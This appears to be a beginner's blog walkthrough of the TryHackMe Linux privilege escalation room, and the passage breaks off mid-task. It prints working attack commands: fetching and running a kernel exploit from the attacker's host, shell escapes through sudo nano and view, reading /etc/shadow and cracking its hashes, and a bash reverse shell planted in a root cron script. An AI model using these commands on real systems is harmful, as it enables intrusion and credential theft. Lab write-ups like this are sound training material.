# Day 16: TryHackMe Linux Privilege Escalation Writeup

A practical TryHackMe Linux privilege escalation writeup where I learned that getting a shell is only the beginning of the suffering.

Today, we are not doing a CTF exactly.

This is more like solving a TryHackMe room.

Why?

Because yesterday’s CTF taught me one very important thing:

I am bad at privilege escalation.

Not “slightly rusty” bad.

More like “I got a shell and then stared at the terminal like it owed me money” bad.

So I decided to slow down and go back to basics.

This room is **Linux Privilege Escalation** from TryHackMe, and the goal is to understand the common ways a normal Linux user can become a higher-privileged user, usually root.

The room covers multiple privilege escalation techniques, including:

```text
Enumeration
Kernel exploits
Sudo permissions
SUID binaries
Capabilities
Cron jobs
PATH hijacking
NFS misconfiguration
Capstone practice
```

Basically, TryHackMe said:

“Here are the ways Linux can betray itself.”

And I said:

“Perfect, I need this.”

## What Is Privilege Escalation?

Privilege escalation means moving from a lower-privileged account to a higher-privileged one.

For example:

```text
normal user → another user → root
```

In Linux, root is the boss account.

Root can read sensitive files, change permissions, edit configurations, add users, reset passwords, and generally do things normal users are not allowed to do.

In real-world pentesting, initial access usually does not give you root straight away.

You may land as a low-privileged user first.

Then the real question becomes:

```text
Now what can this user access?
What can this user run?
What is misconfigured?
What can be abused?
```

That is where privilege escalation starts.

## Task 3 — Enumeration

Enumeration is the first proper step after getting access to a machine. One thing to note for this room is that most tasks use separate machines, so you will usually need to terminate the current machine, start the next one, and SSH into the new IP address before continuing.

The goal is simple:

Collect information.

A lot of information.

Then use that information to find possible privilege escalation paths.

For this room, I kept this small cheat sheet in mind.

|Goal|Command|Why it matters|
|---|---|---|
|Hostname|`hostname`|Shows the target machine name|
|Kernel info|`uname -a`|Useful for kernel exploit checks|
|OS info|`cat /etc/issue`|Shows Linux distribution/version|
|Current user|`id`|Shows UID, GID, and groups|
|Sudo rights|`sudo -l`|Shows what commands the user can run with sudo|
|Users|`cat /etc/passwd`|Lists local users and service accounts|
|Hidden files|`ls -la`|Shows all files, including hidden ones|
|Processes|`ps aux`|Shows running processes from all users|
|Environment|`env`|Shows variables like `PATH`|
|Network|`netstat -ano`|Shows network connections|
|Find SUID|`find / -perm -u=s -type f 2>/dev/null`|Finds SUID binaries|
|Find writable dirs|`find / -writable -type d 2>/dev/null`|Finds writable directories|
|Find files|`find / -name filename 2>/dev/null`|Searches the filesystem|
|Search text|`grep "word" file`|Finds text inside files|

Tiny beginner memory trick:

```text
Who am I?
What system is this?
What can I run?
What can I read?
What is misconfigured?
```

Privilege escalation is basically asking the machine questions until it accidentally confesses.

## Enumeration Questions

### What is the hostname of the target system?

I used:

```bash
hostname
```

### Answer

```text
wade7363
```

### What is the Linux kernel version?

I used:

```bash
uname -a
```

This prints kernel and system information.

### Answer

```text
3.13.0-24-generic
```

### What Linux is this?

At first, I checked:

```bash
cat /proc/version
```

That did not give me the answer in the format TryHackMe wanted.

So I checked:

```bash
cat /etc/issue
```

### Answer

```text
Ubuntu 14.04 LTS \n \l
```

### What version of Python is installed?

The room asked for `python`, not `python3`, so I used:

```bash
python --version
```

### Answer

```text
2.7.6
```

### What vulnerability seems to affect the kernel?

From enumeration, I already knew the kernel version:

```text
3.13.0-24-generic
```

So I searched for known exploits affecting that kernel version.

One useful place to check is Exploit-DB:

```text
https://www.exploit-db.com/
```



The vulnerability matched:

### Answer

```text
CVE-2015-1328
```

A CVE is a **Common Vulnerabilities and Exposures** identifier.

In simple words, it is a public ID for a known security vulnerability.

So `CVE-2015-1328` is basically the vulnerability’s official name tag.

Very formal.

Very dangerous.

## Task 4 — Automated Enumeration Tools

The room also introduced automated enumeration tools.

These tools can save time, but they should not replace understanding.

They are helpful because they quickly check common privilege escalation paths, but they can miss things or produce false positives.

Some popular tools are:

|Tool|Use|
|---|---|
|LinPEAS|Very popular Linux privilege escalation enumeration script|
|LinEnum|Classic Linux enumeration script|
|Linux Exploit Suggester|Suggests possible kernel exploits|
|Linux Smart Enumeration|Lightweight enumeration tool|
|Linux Priv Checker|Python-based privilege escalation checker|

Important lesson:

Automation is useful, but it should not be your brain.

If a tool finds something, you still need to understand what it means.

Otherwise, you are just copy-pasting your way into confusion.

Which is a valid lifestyle, but not a good pentesting methodology.

## Task 5 — Privilege Escalation: Kernel Exploits

Kernel exploits target vulnerabilities in the Linux kernel itself.

The basic method is:

```text
1. Find the kernel version
2. Search for a matching exploit
3. Transfer the exploit to the target
4. Compile it if needed
5. Run it
6. Check if you became root
```

This sounds simple, but kernel exploits can crash systems.

In a TryHackMe lab, that is fine.

In a real pentest, you do not just fire kernel exploits like fireworks unless it is clearly allowed in scope.

Anyway, this is a lab.

So fireworks it is.

## Exploiting CVE-2015-1328

Earlier, I found that the kernel may be affected by:

```text
CVE-2015-1328
```

The exploit I used was from Exploit-DB:

```text
https://www.exploit-db.com/exploits/37292
```



I downloaded the exploit on my Kali machine.

Since my Kali machine was connected to the TryHackMe network through OpenVPN, the target machine could reach my Kali IP.

The idea was:

```text
Kali hosts the exploit file
Target downloads it with wget
Target compiles and runs it
```

On Kali, I started a simple Python web server:

```bash
python3 -m http.server 8000
```



This serves the current directory over HTTP on port `8000`.

Then, on the target machine, I moved into `/tmp`.

```bash
cd /tmp
```

`/tmp` is commonly used because normal users can usually write files there.

Then I downloaded the exploit:

```bash
wget http://192.168.141.159:8000/37292.c
```



After downloading the C file, I compiled it:

```bash
gcc 37292.c
```

Small GCC lesson:

If you compile like this without using `-o`, GCC creates a default executable named:

```text
a.out
```

So instead of running `./37292`, I ran:

```bash
./a.out
```

Then I checked my user:

```bash
whoami
id
```



And now I was root.

Very normal day.

Just compiled a file and became God.

After that, I found the first flag:

```bash
cat /home/matt/flag1.txt
```



### Flag

```text
THM-28392872729920
```

## Task 6 — Privilege Escalation: Sudo

`sudo` allows a user to run commands with higher privileges, usually as root.

The most important command here is:

```bash
sudo -l
```

This lists what commands the current user is allowed to run with sudo.

In privilege escalation, this is one of the first things to check.

Sometimes a user is not allowed to run everything as root, but they may be allowed to run specific programs.

That can still be enough.

Because some programs can escape into a shell.

That is where GTFOBins comes in:

```text
https://gtfobins.github.io/
```

GTFOBins shows how certain Linux binaries can be abused when they are given dangerous permissions.

Basically, it is the “how badly did the admin configure this?” website.

## Sudo Questions

### How many programs can the user `karen` run with sudo rights?

I ran:

```bash
sudo -l
```



It showed that `karen` could run three programs with sudo rights.

### Answer

```text
3
```

### What is the content of `flag2.txt`?

For this one, I did not even need privilege escalation.

As `karen`, I could read the file directly:

```bash
cat /home/ubuntu/flag2.txt
```



### Flag

```text
THM-402028394
```

### How would you use Nmap to spawn a root shell if your user had sudo rights on Nmap?

I checked GTFOBins for `nmap`.



Older versions of Nmap had an interactive mode that could execute shell commands.

The method is:

```bash
sudo nmap --interactive
```

Then inside interactive mode:

```text
!/bin/sh
```

### Answer

```text
sudo nmap --interactive
```

### Reading `/etc/shadow` using sudo nano

From `sudo -l`, I saw this:

```text
(ALL) NOPASSWD: /usr/bin/find
(ALL) NOPASSWD: /usr/bin/less
(ALL) NOPASSWD: /usr/bin/nano
```

That means `karen` could run `nano` with sudo privileges without entering a password.

I checked GTFOBins for `nano`.



The method was:

```bash
sudo nano
```

Then inside nano:

```text
CTRL + R
CTRL + X
```

Then enter:

```bash
reset; bash 1>&0 2>&0
```

This spawns a shell from inside nano.

Since nano was running with sudo privileges, the shell also had elevated privileges.

After getting the root shell, I read `/etc/shadow`:

```bash
cat /etc/shadow
```



The required hash was:

```text
$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1:18796:0:99999:7:::
```

This was also funny because yesterday’s CTF had `vi` sudo abuse, and now nano showed up.

Apparently text editors are not here to write notes.

They are here to become root.

## Task 7 — Privilege Escalation: SUID

SUID stands for **Set User ID**.

Normally, when you run a file, it runs with your permissions.

But if a binary has the SUID bit set, it runs with the permissions of the file owner.

So if a binary is owned by root and has SUID set, it may run with root privileges.

That can be dangerous.

To find SUID binaries, I used:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Breaking that down:

```text
find /                 Search from the root directory
-type f                Only files
-perm -04000           Files with the SUID bit set
-ls                    Show detailed output
2>/dev/null            Hide permission denied errors
```

The basic idea:

```text
Find root-owned binaries with special permissions.
Then check if any of them can be abused.
```

GTFOBins again becomes the best friend.

Like that one friend who always knows the shady shortcut.

## SUID Questions

### Which user shares the name of a great comic book writer?

I checked the users:

```bash
cat /etc/passwd
```

Small correction: it is `/etc/passwd`, not `/etc/password`.

After looking through the users, I found:



### Answer

```text
gerryconway
```

Gerry Conway is a comic book writer.

He co-created The Punisher.

So yes, technically the system had a Punisher reference sitting in `/etc/passwd`.

Linux privilege escalation lore is weird.

## What is the password of user2?

At first, I thought I needed full root access.

Turns out I did not need full root yet.

I ran the SUID search:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```



This showed SUID binaries.

A binary is just an executable program.

If a binary has the SUID bit and is owned by root, then it may run with root-level privileges.

In the output, `base64` was useful.

GTFOBins showed that `base64` can read files when it has SUID permissions.



The format is:

```bash
base64 /path/to/file | base64 --decode
```

This reads the file through `base64`, then decodes it back into normal readable text.

So I used it on `/etc/shadow`:

```bash
base64 /etc/shadow | base64 --decode
```



That revealed the hash for `user2`:

```text
$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/
```

Now I needed to crack it.

I saved the hash into a file called `user2`.

Then I used John the Ripper:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt user2
```



John compares the hash against passwords from the wordlist.

If one password creates the same hash, John finds the password.

And it did.

### Answer

```text
Password1
```

Password1.

Because apparently `Password1` continues to be the final boss of bad passwords.

## What is the content of `flag3.txt`?

The flag was in:

```text
/home/ubuntu/flag3.txt
```

Since `base64` could read protected files, I used:

```bash
base64 /home/ubuntu/flag3.txt | base64 --decode
```

### Flag

```text
THM-3847834
```

## Task 8 — Privilege Escalation: Capabilities

Linux capabilities are another way to give a binary specific privileges without giving it full root access.

For example, instead of making a program fully root, an admin can give it only the capability it needs.

That sounds safer.

But if the wrong binary gets the wrong capability, it can still be abused.

To list capabilities, I used:

```bash
getcap -r / 2>/dev/null
```

Breaking that down:

```text
getcap            Shows file capabilities
-r /              Search recursively from root
2>/dev/null       Hide errors
```

This is important because capabilities do not show up in normal SUID searches.

So if you only check SUID and ignore capabilities, you may miss a privilege escalation path.

Which is rude of Linux, honestly.

## Capabilities Questions

### Complete the task described above

I ran:

```bash
getcap -r / 2>/dev/null
```

That completed the check.

### How many binaries have set capabilities?

The output showed three binaries.



### Answer

```text
3
```

### What other binary can be used through its capabilities?

Looking through the output, I found:



### Answer

```text
view
```

### What is the content of `flag4.txt`?

To get the flag, I used the `view` binary.

I tried checking GTFOBins first, but the exact capabilities path was not as straightforward as I wanted.

So I used this command:

```bash
/home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

What it does:

```text
view -c
```

runs a command inside `view`.

```python
import os
```

loads Python’s OS module.

```python
os.setuid(0)
```

sets the user ID to root.

```python
os.execl(...)
```

replaces the current process with a shell.

In simple terms:

It uses Python from inside `view` to spawn a root shell.

After getting root, I read the flag:

```bash
cat /home/ubuntu/flag4.txt
```



### Flag

```text
THM-9349843
```

This one took more effort than expected.

Capabilities looked innocent at first.

Then `view` casually became a root shell.

Never trust a text viewer in a privilege escalation room.

## Task 9 — Privilege Escalation: Cron Jobs

Cron jobs are scheduled tasks on Linux.

They can run scripts automatically at certain times.

For example:

```text
Every minute
Every hour
Every day
At reboot
```

The privilege escalation idea is simple:

If root runs a cron job, and we can edit the script that root runs, then our code runs as root.

That is the whole danger.

To check system-wide cron jobs, I used:

```bash
cat /etc/crontab
```

## Cron Questions

### How many user-defined cron jobs can you see?

The crontab showed four user-defined cron jobs.



### Answer

```text
4
```

### What is the content of `flag5.txt`?

The flag was located at:

```text
/home/ubuntu/flag5.txt
```

But `karen` could not read it directly.

So I needed privilege escalation.

Looking at the cron jobs, I found a script called `backup.sh`.

The useful part was that `karen` could write to it.



If root runs `backup.sh` every minute, and I can edit `backup.sh`, then I can make root run my command.

That is the kind of teamwork Linux admins did not intend.

I edited the script and added a reverse shell:

```bash
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/192.168.141.159/9001 0>&1'
```

What this does:

```bash
#!/bin/bash
```

tells Linux to run the script with Bash.

```bash
bash -i
```

starts an interactive Bash shell.

```bash
/dev/tcp/192.168.141.159/9001
```

connects back to my attacking machine on port `9001`.

```bash
>&
```

redirects output.

```bash
0>&1
```

connects input back through the same connection.

In normal words:

This makes the target machine call back to my machine and give me a shell.

After editing, I made sure the script was executable:

```bash
chmod +x backup.sh
```



On my attacking machine, I started a listener:

```bash
nc -lvnp 9001
```

This waits for the reverse shell connection.

After about a minute, the cron job ran, and I got a root shell.



Then I read the flag:

```bash
cat /home/ubuntu/flag5.txt
```



### Flag

```text
THM-383000283
```

### What is Matt’s password?

Since I had root access, I could read `/etc/shadow` and get Matt’s password hash.



Matt’s hash was:

```text
